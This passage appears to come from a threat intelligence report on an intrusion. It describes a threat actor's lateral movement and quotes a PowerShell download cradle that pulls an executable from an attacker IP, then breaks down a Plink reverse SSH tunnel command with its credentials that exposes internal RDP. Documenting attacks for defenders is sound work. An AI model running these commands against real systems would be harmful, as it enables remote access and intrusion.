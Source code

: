 # Lateral Movement
The threat actor used the web shell to download file.exe onto the beachhead and save it as ekern.exe using a PowerShell download cradle.

powershell.exe (New-Object System.Net.WebClient).DownloadFile('hXXp://23.81.246[.]84/file.exe', 'c:\windows\temp\ekern.exe')
The file ekern.exe was a renamed copy of Plink.exe, a command-line SSH client.



Plink was used in conjunction with a batch script named FXS.bat to establish an SSH connection with the threat actor’s server.





Let’s break down what this command means:

Providing “y” as standard input to the executable. To confirm when plink asks if they would like the public key added to known hosts.

c:\Windows\temp\ekern.exe

Plink executable

-ssh

Force the use of SSH (Plink can support other protocols)

-P 443

Define a specific target port for SSH connection

-l admin1

Connect with the specified username

-pw Asde345@#$345sdfDFVCDF

Password to authenticate with

-R 23.81.246.84:49800:127.0.0.1:3389

Listen on 23.81.246.84:49800 and forward it to 127.0.0.1:3389. This effectively proxies the request to the host running the command

23.81.246.84

Target server to SSH

The actor defined a custom target port to Plink (-P 443) instead of the default SSH port of 22.

The actor used the technique of port forwarding to listen on the remote port, 23.81.246[.]84:49800, and forward the requests to 127.0.0.1:3389. This resulted in the actor being able to RDP to the beachhead server via the SSH tunnel.



The script FXS.bat was re-used multiple times to establish connections to various hosts.

The actor then replaced the loopback address with various internal hosts. The ManageEngine server acted as a proxy that forwarded the RDP traffic between the target host and the threat actor’s server:
